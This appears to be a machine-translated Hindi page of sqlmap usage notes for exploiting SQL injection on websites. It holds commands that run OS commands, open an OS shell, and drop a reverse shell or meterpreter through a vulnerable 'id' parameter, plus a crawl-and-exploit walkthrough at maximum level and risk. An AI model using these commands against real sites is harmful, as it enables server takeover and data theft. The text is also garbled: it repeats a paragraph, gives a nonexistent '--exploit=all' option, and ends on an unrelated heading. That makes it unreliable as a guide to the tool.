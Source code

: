 Shell एक प्रोग्राम है जो उपयोगकर्ता को कमांड लाइन इंटरफेस के माध्यम से सिस्टम के साथ इंटरैक्ट करने की अनुमति देता है। यह उपयोगकर्ता को शेल स्क्रिप्ट के माध्यम से एकाधिक कमांडों को एक साथ चलाने की अनुमति देता है। शैल एक शक्तिशाली टूल है जिसका उपयोग करके हैकर्स विभिन्न टास्क को सम्पादित कर सकते हैं, जैसे कि फ़ाइलों को बनाना, मिटाना, संपादित करना, प्रोसेस को नियंत्रित करना, नेटवर्क कनेक्शन बनाना और बहुत कुछ।

शैल के अनुक्रमणिका कमांडों का उपयोग करके आप फ़ाइलों और फ़ोल्डरों को नेविगेट कर सकते हैं, फ़ाइलों को पढ़ सकते हैं, लिख सकते हैं, फ़ाइलों को बना सकते हैं, फ़ाइलों को मिटा सकते हैं, निर्देशिकाओं को बना सकते हैं, निर्देशिकाओं को मिटा सकते हैं, प्रोसेस को नियंत्रित कर सकते हैं, नेटवर्क कनेक्शन बना सकते हैं, नेटवर्क कनेक्शन को बंद कर सकते हैं, और बहुत कुछ।

शैल एक शक्तिशाली टूल है जिसका उपयोग करके हैकर्स विभिन्न टास्क को सम्पादित कर सकते हैं, जैसे कि फ़ाइलों को बनाना, मिटाना, संपादित करना, प्रोसेस को नियंत्रित करना, नेटवर्क कनेक्शन बनाना और बहुत कुछ।
```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
## SQLmap का उपयोग करके एक वेबसाइट को क्रॉल करें और स्वचालित रूप से एक्सप्लॉइट करें

यदि आप एक वेबसाइट को SQLmap के साथ क्रॉल करना और स्वचालित रूप से एक्सप्लॉइट करना चाहते हैं, तो निम्नलिखित चरणों का पालन करें:

1. SQLmap को डाउनलोड और स्थापित करें।
2. टर्मिनल खोलें और SQLmap को चलाएं।
3. निम्नलिखित कमांड का उपयोग करके वेबसाइट को क्रॉल करें:
   ```
   sqlmap -u <वेबसाइट URL> --crawl=<गहनता स्तर> --batch
   ```
   यहां, `<वेबसाइट URL>` वेबसाइट का URL है और `<गहनता स्तर>` वेबसाइट के गहनता स्तर को निर्दिष्ट करता है। उदाहरण के लिए, `--crawl=3` वेबसाइट के तीन स्तर तक क्रॉल करेगा।
4. SQLmap वेबसाइट को क्रॉल करेगा और संभावित SQL इंजेक्शन बिंदुओं को खोजेगा।
5. एक्सप्लॉइट करने के लिए, निम्नलिखित कमांड का उपयोग करें:
   ```
   sqlmap -u <वेबसाइट URL> --exploit=all --batch
   ```
   यहां, `<वेबसाइट URL>` वेबसाइट का URL है। `--exploit=all` सभी संभावित एक्सप्लॉइट को चुनेगा।
6. SQLmap वेबसाइट को एक्सप्लॉइट करेगा और आपको उपयुक्त डेटा और अन्य जानकारी प्रदान करेगा।

इस तरह, आप SQLmap का उपयोग करके एक वेबसाइट को क्रॉल कर सकते हैं और स्वचालित रूप से एक्सप्लॉइट कर सकते हैं।
```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
# सफ़िक्स सेट करें
